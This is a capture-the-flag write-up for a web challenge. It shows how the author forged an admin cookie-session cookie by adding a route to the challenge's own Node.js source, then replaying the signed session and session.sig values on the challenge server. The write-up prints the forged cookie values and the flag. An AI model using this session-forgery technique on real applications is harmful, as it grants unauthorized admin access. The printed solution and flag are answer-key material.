


# PDF-C (2/3): Lookie Its A Cookie

300, WEB, 11 SOLVES

## Description

I hope the circuit breaker period made you a better baker, because you are going to have to bake your own cookies. Can you retrieve the second flag?

The website.zip here is the same as in part 1.

Visit the challenge at http://chals.whitehacks.ctf.sg:13003/

Author: waituck


## Attached Files

website.zip

# Solution

I read through the nodejs code. After googling, I got some inspiration, especially from : https://www.smrrd.de/nodejs-hacking-challenge-writeup.html. Basically, cookieSession tracks sessions by using special cookies, which have the required data encoded in to them (no special data stored client side or anything).

I extracted website.zip, added code such that it creates a cookie with `req.session.admin = true`, and ran it to generate the cookie.
If you are interested in further details, the code is in the folder `server-solve-for-cookie\`. Just npm run, and go to the path `/add_admin_cookie`
The main code added is
```
//Added 
app.get('/add_admin_cookie', (req, res) => {
  req.session.admin = true;
  res.send('Added admin cookie')
  console.log(req.session);
});
```

I generated these cookies
Cookie | Value
---|---
`session.sig`|`_xVjCLdo74nT98RCUcPQ3zCBkNQ`
`session`|`eyJhZG1pbiI6dHJ1ZX0=`

After that the endpoint works on the local server


I copied these cookies for use to the website (with the help of Chrome Dev Tools), and got the flag


# Flag

`WH2020{sw33_h3ng_bAk3ryy}`